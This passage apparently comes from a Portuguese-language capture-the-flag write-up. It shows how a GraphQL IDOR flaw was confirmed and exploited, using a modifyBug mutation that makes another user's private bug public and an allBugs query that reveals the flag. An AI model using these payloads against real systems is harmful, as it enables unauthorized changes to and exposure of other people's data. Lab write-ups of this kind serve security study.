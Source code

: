 **Analisando o Resultado do Teste:**
A API respondeu com:
```json
{
  "data": {
    "modifyBug": {
      "ok": true,
      "bug": null
    }
  }
}
```
Este resultado foi a **confirmação da vulnerabilidade**:
*   `"ok": true`: A operação de escrita foi um sucesso. O servidor não negou a modificação.
*   `"bug": null`: Ao tentar ler os dados do bug modificado para nos retornar, a regra de acesso foi aplicada, e como não éramos donos do bug, recebemos `null`.

Isso provou a falha de **IDOR (Insecure Direct Object Reference)**: a lógica de negócio permitia a escrita, mas não a leitura, sem verificar a propriedade do objeto.

---

#### **Fase 3: Exploração por Brute-Force**

Agora que tínhamos a arma, só precisávamos encontrar o alvo certo. O objetivo era encontrar um bug privado e torná-lo público. Como não sabíamos o ID, tentamos em sequência.

**Construindo o Payload de Exploração:**
Tentamos modificar o bug com `id: 2`, especificamente para mudar seu status de privacidade.

```graphql
mutation {
  modifyBug(id: 2, private: false) {
    ok
  }
}
```

**Por que este payload funcionou?**
Executamos a mutação para `id: 2`. A API, vulnerável ao IDOR, aceitou o comando e alterou o campo `private` do bug `2` para `false`, sem verificar se tínhamos permissão.

**A Revelação Final:**
Imediatamente após a mutação, executamos a query `allBugs` novamente.

```graphql
query {
  allBugs {
    id
    text
    private
  }
}
```
Desta vez, como o bug `2` não era mais privado, ele apareceu na lista, revelando a flag em seu campo `text`.

